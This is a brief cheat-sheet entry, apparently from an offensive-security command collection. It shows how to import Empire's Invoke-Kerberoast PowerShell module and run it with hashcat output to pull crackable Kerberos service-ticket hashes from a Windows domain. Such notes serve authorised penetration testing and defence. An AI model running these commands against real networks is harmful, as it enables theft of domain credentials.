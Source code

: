 # Invoke-Kerberoast

% empire, windows, Invoke-Kerberoast

#plateform/windows #target/remote  #cat/RECON

## import module
empire/management/Invoke-Kerberoast.ps1
```powershell
import-module .\Invoke-Kerberoast.ps1
```


## Invoke-Kerberoast 
```powershell
invoke-kerberoast -outputformat hashcat
```
